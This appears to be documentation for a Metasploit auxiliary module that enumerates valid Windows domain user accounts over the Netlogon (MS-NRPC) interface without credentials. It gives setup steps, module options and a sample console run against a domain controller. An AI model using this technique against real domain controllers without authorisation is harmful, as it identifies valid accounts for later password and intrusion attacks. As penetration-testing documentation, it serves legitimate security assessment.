 ## Vulnerable Application

A new method for gathering domain users. The method leverages auth-level = 1 (No authentication) against the
MS-NRPC (Netlogon) interface on domain controllers. All that's required is the domain controller's IP address,
and the entire process can be completed without providing any credentials.

## Verification Steps

1. Do: `use auxiliary/gather/nrpc_enumusers`
2. Do: `set RHOSTS <targer IP addresses>`
3. Do: `set USER_FILE <path to your users list>`
4. Do: `run`


## Target

To use nrpc_enumusers, make sure you are able to connect to the Domain Controller.
It has been tested with Windows servers 2012, 2016, 2019 and 2022

## Options

1- `USER_FILE` (required)

**Description:** Path to the file containing the list of usernames to enumerate. Each username should be on a separate line.

**Usage:** Provide the path to the file that contains the list of user accounts you want to test.

**Example:** `set USER_FILE /path/to/usernames.txt`

2- `RHOSTS` (required)

**Description:** The target IP address or range of IP addresses of the Domain Controllers.

**Usage:** Specify the IP address or addresses of the Domain Controllers you are targeting.

**Example:** `set RHOSTS 192.168.1.100`

3- `RPORT` (optional)

**Description:** The port for the MS-NRPC interface. If not specified, the module will attempt to determine the endpoint.

**Usage:** If you know the port used by the MS-NRPC interface, you can specify it. Otherwise, the module will find it automatically.

**Example:** `set RPORT 49664`

## Scenarios

The following demonstrates basic usage, using a custom wordlist,
targeting a single Domain Controller to identify valid domain user accounts.

Create a new `./users.txt` file, then run the module:

```
msf6 auxiliary(gather/nrpc_enumusers) > set RHOSTS 192.168.177.177
RHOSTS => 192.168.177.177
msf6 auxiliary(gather/nrpc_enumusers) > set USER_FILE users.txt 
USER_FILE => users.txt
msf6 auxiliary(gather/nrpc_enumusers) > run

[*] 192.168.177.177: - Connecting to the endpoint mapper service...
[*] 192.168.177.177: - Binding to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.177.177[49664]...
[-] 192.168.177.177: - Tiffany.Molina does not exist
[-] 192.168.177.177: - SMITH does not exist
[-] 192.168.177.177: - JOHNSON does not exist
[-] 192.168.177.177: - WILLIAMS does not exist
[-] 192.168.177.177: - Administratorsvc_ldap does not exist
[-] 192.168.177.177: - svc_ldap does not exist
[-] 192.168.177.177: - ksimpson does not exist
[+] 192.168.177.177: - Administrator exists
[-] 192.168.177.177: - James does not exist
[-] 192.168.177.177: - nikk37 does not exist
[-] 192.168.177.177: - svc-printer does not exist
[-] 192.168.177.177: - SABatchJobs does not exist
[-] 192.168.177.177: - e.black does not exist
[-] 192.168.177.177: - Kaorz does not exist
[*] 192.168.177.177: - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(gather/nrpc_enumusers) >
```
